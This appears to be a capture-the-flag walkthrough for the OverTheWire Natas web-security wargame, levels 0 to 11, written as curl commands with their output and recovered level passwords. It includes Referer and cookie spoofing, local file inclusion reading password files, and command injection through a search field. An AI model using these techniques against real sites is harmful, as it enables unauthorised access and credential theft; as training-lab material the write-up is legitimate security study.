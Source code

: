 # Natas challenges

http://natas0.natas.labs.overthewire.org/

## level 0
~» curl -s http://natas0.natas.labs.overthewire.org -u natas0:natas0  | ag pass
<script>var wechallinfo = { "level": "natas0", "pass": "natas0" };</script></head>
You can find the password for the next level on this page.
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

## level 1
~» curl -s -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org  | ag "the pass"
You can find the password for the
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

## level 2
~» curl -s -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH

## level 3
~» curl -s -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## level 4
~» curl -s -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ --referer  "http://natas5.natas.labs.overthewire.org/" | ag "the password"
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## level 5
~» curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie 'loggedin=1' | ag "the password"
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## level 6
~» curl -s -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

## level 7
~» curl -X POST --data "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" -s -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ | ag "the password"
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## level 7
~» curl -s -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8' | elinks -dump
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## level 8
~» curl -s -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 'http://natas8.natas.labs.overthewire.org/'  -X POST --data "secret=oubWYf2kBq&submit=submit" | ag granted
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## level 9
~» curl -s -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 'http://natas9.natas.labs.overthewire.org/'  --data 'submit=submit&needle=u /etc/natas_webpass/natas10;' | ag
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## level 10
~» curl -s -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu 'http://natas10.natas.labs.overthewire.org/' --data "submit=submit&needle=c /etc/natas_webpass/natas11 #"
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## level 11
~» curl -s -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK 'http://natas11.natas.labs.overthewire.org/index-source.html' | elinks -dump



